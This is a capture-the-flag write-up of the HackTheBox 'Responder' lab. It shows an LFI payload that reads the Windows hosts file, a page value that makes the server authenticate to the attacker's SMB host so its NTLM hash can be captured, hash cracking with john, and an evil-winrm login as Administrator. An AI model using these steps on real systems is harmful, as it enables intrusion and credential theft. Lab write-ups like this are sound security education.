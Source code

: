 ```yaml
---
title: "HackTheBox - Responder"
author: Nasrallah
description: ""
date: 2022-06-25 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, lfi, responder, winrm, cracking, john]
img_path: /assets/img/hackthebox/machines/responder/
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello Hackers, I hope you are doing well. Today we are doing [Responder](https://app.hackthebox.com/starting-point?tier=1) from [HackTheBox](https://www.hackthebox.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 -p- {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
PORT     STATE    SERVICE   VERSION
80/tcp   open     http      Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
5985/tcp open     http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp filtered pando-pub
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The target is a windows machine having 2 open ports, port 80 running Apache web server as well as WINRM on port 5985.

### Web

Navigate to the web page. http://10.129.230.170/

![](1.png)

We get redirected to unika.htb . We need to add it to our hosts file (/etc/hosts)

![](2.png)

Now go to http://unika.htb/

![](3.png)

Looking through the page, we see a section where we can change language. When we change the option to GR, the website takes us to the German version of the website.

![](4.png)

In the URL we see the `german.html` page is loaded by the `page` parameter.

This might be vulnerable to LFI (**L**ocal **File** **I**clusion).

>LFI or Local File Inclusion occurs when an attacker is able to get a website to include a file that was not
intended to be an option for this application. A common example is when an application uses the path to a
file as input. If the application treats this input as trusted, and the required sanitary checks are not
performed on this input, then the attacker can exploit it by using the ../ string in the inputted file name
and eventually view sensitive files in the local file system. In some limited cases, an LFI can lead to code
execution as well.

## **Foothold**

Since this is a windows machine, one of the files we use to test for lfi is `C:\Windows\System32\drivers\etc\hosts`.

Now let's add that to the url and request the file.`http://unika.htb/index.php?page=C:\Windows\System32\drivers\etc\hosts`.

![](5.png)

Great! The target is vulnerable to LFI.

We are going to leverage that and get a NTLM hash using a tool called `Responder`.

When we run `Responder`, it will set up an SMB server listening for incoming connections. Then we'll attempt to perform the NTLM authentication to that server using the LFI we found. `Responder` sends a challenge back for the server to encrypt with the user's password. When the server responds, `Responder` will use the challenge and the encrypted response to generate the NetNTLMv2.

First, let's run Responder : `udo responder -I tun0`

![](6.png)

with the Responder server ready, we tell the server to include a resource from our SMB server by setting the page parameter: `http://unika.htb/index.php?page=//10.10.16.29/somefile`.

![](7.png)

Great! We not only got a hash, but it's Administrator's hash.

Put the hash in file so that we can crack it.

![](8.png)

Using john and rockyou wordlist, let's crack the hash.

![](9.png)

Great! Got Administrator's password.

We have seen earlier that Winrm service is running. Using a tool called `evil-winrm`, we can connect to that service as Administrator with the password we cracked. `evil-winrm -i 10.129.95.234 -u Administrator -p badminton`

![](9.png)

Excellent! We got in.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
